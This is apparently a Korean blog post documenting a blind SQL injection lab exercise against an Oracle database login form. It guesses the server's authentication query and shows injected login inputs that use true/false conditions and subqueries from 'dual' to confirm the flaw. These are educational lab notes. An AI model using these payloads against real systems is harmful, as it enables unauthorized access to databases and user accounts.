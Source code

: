 ```yaml
---
title: "Blind SQL Injection 실습"
excerpt: "직접 Blind SQL Injection 을 시도해보자."
tags:
    - Oracle DB
    - Blind SQLi
    - SQLi
    - 웹 해킹
last_modified_at: 2023-05-12T09:13:00-05:00
---
```

## 실습 환경
- 오라클 DB

## 서버 인증 질의문 예측하기

- 인증과 식별을 따로 분리하여 검사한다.

```sql
select id,pwd from xxx where id='xx';
```

## 참과 거짓 화면
- 로그인 성공 실패 여부로 참과 거짓을 구분할 수 있다.

### 참

```sql
입력 = ' user2' and (1=1) and '1'='1 '
```

- 로그인 성공<br>![Pasted image 20230511135315](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/57c7f54d-5fef-454e-9060-047ac800766a)


### 거짓

```sql
입력 = ' user2' and (1=2) and '1'='1 '
```

- 로그인 실패<br>![Pasted image 20230511135242](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/310a130f-2f28-444b-b75d-3692cc977cfd)



## select 문 사용 가능 확인

```sql
입력 = ' user2' and (('test')='test') and '1'='1 '
성공

select 'test' from dual
입력 = ' user2' and ((select 'test' from dual)='test') and '1'='1 '
성공
```
